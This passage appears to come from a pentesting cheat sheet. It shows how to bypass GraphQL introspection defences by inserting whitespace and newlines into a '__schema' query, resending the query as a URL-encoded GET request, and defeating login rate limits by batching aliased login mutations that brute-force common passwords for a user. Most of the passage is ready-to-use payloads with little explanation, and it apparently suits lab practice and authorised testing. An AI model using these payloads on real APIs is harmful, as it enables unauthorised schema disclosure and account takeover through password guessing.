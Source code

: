 ```graphql
                }
              }
            }
          }
        }
      }
    }

```


#### Bypassing GraphQL introspection defenses
- **manpulate the query**
You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex.


for example if `__schema{` is ignored , try
```graphql
query{__schema
  {queryType{name}}
}

```

- **change request method or type**

```http
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

- **use aliases to bypass ratelimit**
```graphql
mutation {

bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }


bruteforce2:login(input:{password: "12345678", username: "carlos"}) {
        token
        success
    }


bruteforce3:login(input:{password: "qwerty", username: "carlos"}) {
        token
        success
    }
}
```
